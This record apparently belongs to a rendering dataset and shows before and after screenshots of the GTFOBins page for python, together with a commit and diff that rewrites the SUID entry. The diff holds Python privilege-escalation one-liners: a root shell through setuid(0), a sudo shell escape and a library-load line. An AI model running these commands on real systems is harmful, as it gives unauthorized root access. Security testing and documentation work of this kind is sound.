

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/python.md, in a window 1280 px wide and 900 px high, scrolled down 1828 px. Shown: the part 271-576 px from the top of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update python.md
Fixed Python SUID. Added the method to set uid in the command which was not there  previously

-bishwabikash

```diff
--- a/_gtfobins/python.md
+++ b/_gtfobins/python.md
@@ -44,7 +44,7 @@ functions:
   library-load:
     - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
   suid:
-    - code: ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
+    - code: ./python -c 'import os; os.setuid(0); os.system("/bin/bash")'
   sudo:
     - code: sudo python -c 'import os; os.system("/bin/sh")'
   capabilities:
```
